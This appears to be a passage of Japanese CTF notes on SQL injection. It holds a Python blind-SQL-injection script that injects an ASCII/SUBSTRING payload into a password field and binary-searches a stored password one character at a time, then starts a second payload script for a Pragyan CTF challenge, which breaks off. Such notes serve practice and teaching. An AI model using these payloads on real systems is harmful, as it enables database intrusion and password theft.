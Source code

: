 ```python
def challenge(offset, guess):
    req = requests.Request(
        'POST',
        URL,
        data={
            "pwd" : "' or ASCII(SUBSTRING((select password from data limit 0, 1),{},1)) < {} #".format(offset + 1, guess)
        }
    )
    prepared = req.prepare()
    #trace_request(prepared)
    session = requests.Session()
    #start = time.time() # TimeBased用
    res = session.send(prepared, allow_redirects = False)
    #elapsed_time = time.time() - start # TimeBased用
    #trace_response(res)
    if "There is no flag" in res.content.decode("utf-8"):
        return True # 取得したい文字の文字コードは予想文字の文字コードより小さい
    else:
        return False # 取得したい文字の文字コードは予想文字の文字コード以上
def binarySearch(offset):
    low = 0
    high = 256
    while low <= high:
        guess = (low + high) // 2
        is_target_lessthan_guess = challenge(offset, guess)
        if is_target_lessthan_guess:
            high = guess
        else:
            low = guess
        if high == 1:
            return -1
        elif high - low == 1:
            return low
while True:
    code = binarySearch(len(target))
    if code == -1:
        break
    target += chr(code)
    print("[+] target: " + target)
print("[+] target: " + target)
```
## filter union / blind injection / 検索フォーム (Pragyan CTF Animal attack)
http://ctf.publog.jp/archives/1069963262.html  
http://kyuri.hatenablog.jp/entry/2018/03/06/182735  
- **entrypoint**  
`union`というキーワードが使えないらしい。普通のBlind。  
- **payload**  
```python
import requests
from bs4 import BeautifulSoup

def judge(html):
  html = BeautifulSoup(html,"lxml")
  agent = html.find_all("div",id="agent")
  if len(agent) == 0:
    return False
  return True

url = "http://128.199.224.175:24000/"

```